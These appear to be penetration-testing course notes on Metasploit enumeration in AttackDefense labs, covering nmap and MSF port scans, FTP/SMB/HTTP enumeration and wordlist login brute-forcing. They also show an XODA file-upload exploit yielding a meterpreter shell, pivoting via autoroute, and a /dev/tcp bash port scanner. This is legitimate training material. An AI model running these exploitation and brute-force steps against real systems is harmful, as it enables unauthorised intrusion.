

# Information Gathering & Enumeration

## Nmap Enumeration <a href="#nmap-enumeration" id="nmap-enumeration"></a>

* **`nmap`** enumeration results (_service versions, operating systems, etc_) can be exported into a file that can be imported into MSF and used for further detection and exploitation.

Some commands:

```bash
nmap <TARGET_IP>
nmap -Pn <TARGET_IP>
nmap -Pn -sV -O <TARGET_IP>
```

* Output the `nmap` scan results into an **`.XML`** format file that can be imported into MSF

```bash
nmap -Pn -sV -O 10.2.18.161 -oX windows_server_2012
```

### [MSFdb Import](https://www.offsec.com/metasploit-unleashed/using-databases/) <a href="#msfdb-import" id="msfdb-import"></a>

* In the same lab environment from above, use `msfconsole` to import the results into MSF with the `db_import` command

```bash
service postgresql start
msfconsole
```

* Inside `msfconsole`

```bash
db_status
workspace -a Win2k12
db_import /root/windows_server_2012
```

<figure><figcaption></figcaption></figure>

* Perform an `nmap` scan _within the MSF Console and import the results in a dedicated workspace_

```bash
workspace -a nmap_MSF
```

```bash
db_nmap -Pn -sV -O <TARGET_IP>
```

<figure><figcaption></figcaption></figure>

### [Port Scanning](https://www.offsec.com/metasploit-unleashed/port-scanning/) <a href="#port-scanning" id="port-scanning"></a>

MSF **Auxiliary modules** are used during the information gathering (similar to `nmap`) and the post exploitation phases of the pentest.

* perform TCP/UDP port scanning
* enumerate services
* discover hosts on different network subnets (post-exploitation phase)

**Lab Network Service Scanning**

> 🔬 Lab [T1046 : Network Service Scanning](https://attackdefense.com/challengedetails?cid=1869)

```bash
service postgresql start && msfconsole -q
```

```bash
workspace -a Port_scan
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.41.167.3
run
```

<figure><figcaption></figcaption></figure>

```bash
curl 192.41.167.3
```

<figure><figcaption></figcaption></figure>

* Exploitation

```bash
search xoda
use exploit/unix/webapp/xoda_file_upload
set RHOSTS 192.41.167.3
set TARGETURI /
run
```

<figure><figcaption></figcaption></figure>

* Perform a network scan on the second target

```bash
meterpreter > shell
```

```bash
/bin/bash -i
ifconfig
exit
```

<figure><figcaption></figcaption></figure>

* Add the route within `meterpreter` and background the meterpreter session

```bash
run autoroute -s 192.26.158.2
background
```

<figure><figcaption></figcaption></figure>

```bash
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.26.158.3
run
```

<figure><figcaption></figcaption></figure>

* Check the static binaries available in "`/root/tools/static-binaries`" directory

```bash
ls -l /root/tools/static-binaries
```

<figure><figcaption></figcaption></figure>

* Upload and run `nmap` against the second target, from the first target machine

```
sessions 1
upload /root/tools/static-binaries/nmap /tmp/nmap
shell
```

```
/bin/bash -i
cd /tmp
chmod +x ./nmap
./nmap -p- 192.26.158.3
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

#### Addtional

* Create and use the bash script to scan the second target machine.

> Using the script provided at [`https://catonmat.net/tcp-port-scanner-in-bash`](https://catonmat.net/tcp-port-scanner-in-bash) as a reference, create a bash script to scan first 1000 ports

```bash
vim bash-port-scanner.sh
cat bash-port-scanner.sh
```

```bash
Bash Script:
#!/bin/bash
for port in {1..1000}; do
timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
```

* Navigate to `meterpreter` sessions.

```bash
upload /root/tools/static-binaries/nmap /tmp/nmap
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
```

```bash
cd /tmp/
chmod +x ./nmap ./bash-port-scanner.sh
./bash-port-scanner.sh 192.26.158.3
```

#### **UDP Scan**

* Into `msfconsole`

```bash
search udp_sweep
use auxiliary/scanner/discovery/udp_sweep
set RHOSTS 192.41.167.3
run
```

***

## [Services Enumeration](https://www.offsec.com/metasploit-unleashed/service-identification/) <a href="#services-enumeration" id="services-enumeration"></a>

Next, there are some MSF commands and modules for **service enumeration** on the same labs from the Enumeration Section.

* Auxiliary modules can be used for enumeration, brute-force attacks, etc

❗📝 **On every attacker machine, run this command to start `msfconsole`:**

```bash
service postgresql start && msfconsole -q
```

* Setup a **global variable**. This will set the RHOSTS option for all the modules utilized:

```bash
setg RHOSTS <TARGET_IP>
```

### [**FTP**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/ftp-enum)

> **`auxiliary/scanner/ftp/ftp_version`**

```bash
msf5 > workspace -a FTP_ENUM
msf5 > search portscan
msf5 > use auxiliary/scanner/portscan/tcp
msf5 > set RHOSTS 192.5.160.3
```

<figure><figcaption></figcaption></figure>

```bash
msf5 > search type:auxiliary name:ftp
msf5 > use auxiliary/scanner/ftp/ftp_version
msf5 > set RHOSTS 192.5.160.3
msf5 > run
```

<figure><figcaption></figcaption></figure>

> **`auxiliary/scanner/ftp/ftp_login`**

```bash
msf5 > search type:auxiliary name:ftp
msf5 > use auxiliary/scanner/ftp/ftp_login
msf5 > show options
msf5 > set RHOSTS 192.146.175.3
msf5 > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 > run
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

> **`auxiliary/scanner/ftp/anonymous`**

```bash
msf5 > search type:auxiliary name:ftp
msf5 > use auxiliary/scanner/ftp/anonymous
msf5 > set RHOSTS 192.146.175.3
msf5 > run
```

<figure><figcaption></figcaption></figure>

### [**SMB/SAMBA**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/smb-enum#lab-3)

> **`auxiliary/scanner/smb/smb_version`**

```bash
msf5 > setg RHOSTS 192.132.155.3
msf5 > workspace -a SMB_ENUM
msf5 > search type:auxiliary name:smb
msf5 > use auxiliary/scanner/smb/smb_version
msf5 > options
msf5 > run
```

<figure><figcaption></figcaption></figure>

> **`auxiliary/scanner/smb/smb_enumusers`**

```bash
msf5 > search type:auxiliary name:smb
msf5 > use auxiliary/scanner/smb/smb_enumusers
msf5 > info
msf5 > run
```

<figure><figcaption></figcaption></figure>

> **`auxiliary/scanner/smb/smb_enumshares`**

```bash
msf5 > search type:auxiliary name:smb
msf5 > use auxiliary/scanner/smb/smb_enumshares
msf5 > show options
msf5 > set ShowFiles true
msf5 > run
```

<figure><figcaption></figcaption></figure>

> [**`auxiliary/scanner/smb/smb_login`**](https://www.offsec.com/metasploit-unleashed/smb-login-check/)

```bash
msf5 > search smb_login
msf5 > use auxiliary/scanner/smb/smb_login
msf5 > options
msf5 > set SMBUser admin
msf5 > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 > run
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### [**HTTP**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/http-enum#lab-3)

> 🔬 [Metasploit - Apache Enumeration Lab](https://www.attackdefense.com/challengedetails?cid=118)


```bash
msf5 > setg RHOSTS 192.50.164.3
msf5 > workspace -a HTTP_ENUM
```

> `auxiliary/scanner/http/http_version`

```bash
msf5 > use auxiliary/scanner/http/http_version
msf5 > show options
msf5 > run
```

<figure><figcaption></figcaption></figure>

> `auxiliary/scanner/http/http_header`

```bash
msf5 > use auxiliary/scanner/http/http_header
msf5 > options
msf5 > run
```

<figure><figcaption></figcaption></figure>

> **`auxiliary/scanner/http/robots_txt`**

```bash
msf5 > auxiliary/scanner/http/robots_txt
msf5 > options
msf5 > run
```

<figure><figcaption></figcaption></figure>

```bash
curl http://192.106.226.3/data/
curl http://192.106.226.3/secure/
```

<figure><figcaption></figcaption></figure>

> `auxiliary/scanner/http/dir_scanner`

```bash
msf5 > use auxiliary/scanner/http/dir_scanner
msf5 > options
msf5 > run
```

<figure><figcaption></figcaption></figure>

> `auxiliary/scanner/http/dir_listing`

```bash
msf5 > use auxiliary/scanner/http/dir_listing
msf5 > options
msf5 > set PATH /data
msf5 > run
```

<figure><figcaption></figcaption></figure>

> **`auxiliary/scanner/http/files_dir`**

```bash
msf5 > use auxiliary/scanner/http/files_dir
msf5 > options
msf5 > run
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* Write and upload a file on the target server. If the file is already exists it will overwrite it.

> **`auxiliary/scanner/http/http_put`**

```bash
msf5 > use auxiliary/scanner/http/http_put
msf5 > options
msf5 > set PATH /data
msf5 > set FILENAME test.txt
msf5 > set FILEDATA "Welcome To AttackDefense"
msf5 > run
```

<figure><figcaption></figcaption></figure>

* Use `wget` and download the `test.txt` file and verify it.

<figure><figcaption></figcaption></figure>

* Use `DELETE` method and delete the text file

```bash
msf5 > use auxiliary/scanner/http/http_put
msf5 > options
msf5 > set PATH /data
msf5 > set FILENAME test.txt
msf5 > set ACTION DELETE
msf5 > run
```

<figure><figcaption></figcaption></figure>

> **`auxiliary/scanner/http/http_login`**

```bash
msf5 > use auxiliary/scanner/http/http_login
msf5 > options
msf5 > set AUTH_URI /secure/
msf5 > set VERBOSE false
msf5 > run
```

<figure><figcaption></figcaption></figure>

> **`auxiliary/scanner/http/apache_userdir_enum`**

```bash
msf5 > use auxiliary/scanner/http/apache_userdir_enum
msf5 > options
msf5 > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 > set VERBOSE false
msf5 > run
```

<figure><figcaption></figcaption></figure>

### [**MYSQL**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/mysql-enum)

> 🔬 [Metasploit - MySQL Enumeration Lab](https://www.attackdefense.com/challengedetails?cid=120)


